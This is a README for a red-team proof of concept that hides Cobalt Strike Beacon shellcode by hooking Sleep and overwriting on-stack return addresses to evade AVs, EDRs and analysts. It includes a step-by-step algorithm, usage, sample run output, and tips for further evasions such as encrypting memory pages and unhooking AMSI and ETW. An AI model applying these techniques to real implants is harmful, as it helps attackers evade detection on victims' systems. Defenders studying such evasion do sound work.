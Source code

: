 # Thread Stack Spoofing PoC

A PoC implementation for an advanced in-memory evasion technique that spoofs Thread Call Stack. This technique allows to bypass thread-based memory examination rules and better hide shellcodes while in-process memory.

## Intro

This is an example implementation for _Thread Stack Spoofing_ technique aiming to evade Malware Analysts, AVs and EDRs looking for references to shellcode's frames in an examined thread's call stack.
The idea is to walk back thread's call stack and overwrite return addresses in subsequent function frames thus masquerading allocations containing malware's code.

An implementation may differ, however the idea is roughly similar to what [MDSec's Nighthawk C2](https://www.mdsec.co.uk/nighthawk/) offers for its agents.
Especially demonstrated in this video:

[Nighthawk - Thread Stack Spoofing](https://vimeo.com/581861665)


## How it works?

This program performs self-injection shellcode (roughly via classic `VirtualAlloc` + `memcpy` + `CreateThread`). 
Then when shellcode runs (this implementation specifically targets Cobalt Strike Beacon implants) a Windows function will be hooked intercepting moment when Beacon falls asleep `kernel32!Sleep`. 
Whenever hooked `MySleep` function gets invoked, it will spoof its own call stack leading to this `MySleep` function and begin sleeping. 
Having awaited for expected amount of time, the Thread's call stack will get restored assuring stable return and shellcode's execution resumption.

The rough algorithm is following:

1. Read shellcode's contents from file.
2. Acquire all the necessary function pointers from `dbghelp.dll`, call `SymInitialize`
3. Hook `kernel32!Sleep` pointing back to our callback.
4. Inject and launch shellcode via `VirtualAlloc` + `memcpy` + `CreateThread`. A slight twist here is that our thread starts from a legitimate `ntdll!RltUserThreadStart+0x21` address to mimic other threads
5. As soon as Beacon attempts to sleep, our `MySleep` callback gets invoked.
6. Stack Spoofing begins. 
7. Firstly we walk call stack of our current thread, utilising `ntdll!RtlCaptureContext` and `dbghelp!StackWalk64` 
8. We save all of the stack frames that match our `seems-to-be-beacon-frame` criterias (such as return address points back to a memory being `MEM_PRIVATE` or `Type = 0`, or memory's protection flags are not `R/RX/RWX`)
9. We terate over collected frames (gathered function frame pointers `RBP/EBP` - in `frame.frameAddr`) and overwrite _on-stack_ return addresses with a fake `::CreateFileW` address.
10. Finally a call to `::SleepEx` is made to let the Beacon's sleep while waiting for further communication.
11. After Sleep is finished, we restore previously saved original function return addresses and execution is resumed. 

Function return addresses are scattered all around the thread's stack memory area, pointed to by `RBP/EBP` register. In order to find them on the stack, we need to firstly collect frame pointers, then dereference them for overwriting:

```
	*(PULONG_PTR)(frameAddr + sizeof(void*)) = Fake_Return_Address;
```

This precise logic is provided by `walkCallStack` and `spoofCallStack` functions in `main.cpp`.


## How do I use it?

Look at the code and its implementation, understand the concept and re-implement the concept within your own Shellcode Loaders that you utilise to deliver your Red Team engagements.
This is an yet another technique for advanced in-memory evasion that increases your Teams' chances for not getting caught by Anti-Viruses, EDRs and Malware Analysts taking look at your implants.

While delivering your advanced shellcode loader, you might also want to implement:

- **Process Heap Encryption** - take an inspiration from this blog post: [Hook Heaps and Live Free](https://www.arashparsa.com/hook-heaps-and-live-free/) - which can let you evade Beacon configuration extractos like [`BeaconEye`](https://github.com/CCob/BeaconEye)
- **Change your Beacon's memory pages protection to `RW` (from `RX/RWX`) and encrypt their contents** before sleeping (that could evade scanners such as [`Moneta`](https://github.com/forrest-orr/moneta) or [`pe-sieve`](https://github.com/hasherezade/pe-sieve))
- **Clean any leftovers from Reflective Loader** to avoid in-memory signatured detections
- **Unhook everything you might have hooked** (such as AMSI, ETW, WLDP) before sleeping and then re-hook afterwards.


## Demo

This is how a call stack may look like when it is **NOT** spoofed:

![not-spoofed](images/not-spoofed.png)

This in turn, when thread stack spoofing is enabled:

![spoofed](images/spoofed.png)

Above we can see a sequence of `kernel32!CreateFileW` being implanted as return addresses. That's merely an example proving that we can manipulate return addresses.
To better enhance quality of this call stack, one could prepare a list of addresses and then use them while picking subsequent frames for overwriting.

For example, a following chain of addresses could be used:

```
KernelBase.dll!WaitForSingleObjectEx+0x8e
KernelBase.dll!WaitForSingleObject+0x52
kernel32!BaseThreadInitThunk+0x14
ntdll!RtlUserThreadStart+0x21
``` 

When thinking about AVs, EDRs and other automated scanners - we don't need to care about how much legitimate our thread's call stack look, since these scanners only care whether a frame points back to a `SEC_IMAGE` memory pages, meaning it was a legitimate DLL/EXE call (and whether these DLLs are trusted/signed themselves). Thus, we don't need to bother that much about these chain of `CreateFileW` frames.


## Example run

Use case:

```
C:\> ThreadStackSpoofer.exe <shellcode> <spoof>
```

Where:
- `<shellcode>` is a path to the shellcode file
- `<spoof>` when `1` or `true` will enable thread stack spoofing and anything else disables it.


Example run that spoofs beacon's thread call stack:

```
C:\> ThreadStackSpoofer.exe beacon64.bin 1
[.] Reading shellcode bytes...
[.] Initializing stack spoofer...
[+] Stack spoofing initialized.
[.] Hooking kernel32!Sleep...
[.] Injecting shellcode...
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92de4 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x1f255dabd51 - skip? 0
        3.      calledFrom: 0x1f255dabd51 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x1388 - skip? 0
        4.      calledFrom: 0x    1388 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x1f25683ae80 - skip? 0
        5.      calledFrom: 0x1f25683ae80 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x1b000100000004 - skip? 0
        6.      calledFrom: 0x1b000100000004 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x8003600140000 - skip? 0
        7.      calledFrom: 0x8003600140000 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x1f255f76040 - skip? 0
        8.      calledFrom: 0x1f255f76040 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x1f255d8cd9f - skip? 0
        9.      calledFrom: 0x1f255d8cd9f - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x1f255d8cdd0 - skip? 0
WalkCallStack: Stack Trace finished.
                        Spoofed: 0x1f255dabd51 -> 0x7ffeb7f74b60
                        Spoofed: 0x00001388 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f25683ae80 -> 0x7ffeb7f74b60
                        Spoofed: 0x1b000100000004 -> 0x7ffeb7f74b60
                        Spoofed: 0x8003600140000 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255f76040 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cd9f -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cdd0 -> 0x7ffeb7f74b60
MySleep(5000)
[+] Shellcode is now running.
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92e14 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x7ffeb7f74b60 - skip? 1
        3.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x7ffeb7f74b60 - skip? 1
        4.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x7ffeb7f74b60 - skip? 1
        5.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x7ffeb7f74b60 - skip? 1
        6.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x7ffeb7f74b60 - skip? 1
        7.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x7ffeb7f74b60 - skip? 1
        8.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x7ffeb7f74b60 - skip? 1
        9.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x7ffeb7f74b60 - skip? 1
WalkCallStack: Stack Trace finished.
                        Restored: 0x7ffeb7f74b60 -> 0x1f255dabd51
                        Restored: 0x7ffeb7f74b60 -> 0x1388
                        Restored: 0x7ffeb7f74b60 -> 0x1f25683ae80
                        Restored: 0x7ffeb7f74b60 -> 0x1b000100000004
                        Restored: 0x7ffeb7f74b60 -> 0x8003600140000
                        Restored: 0x7ffeb7f74b60 -> 0x1f255f76040
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cd9f
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cdd0
```


## Author

```
Mariusz Banach / mgeeky, 
<mb [at] binary-offensive.com>, '21
```
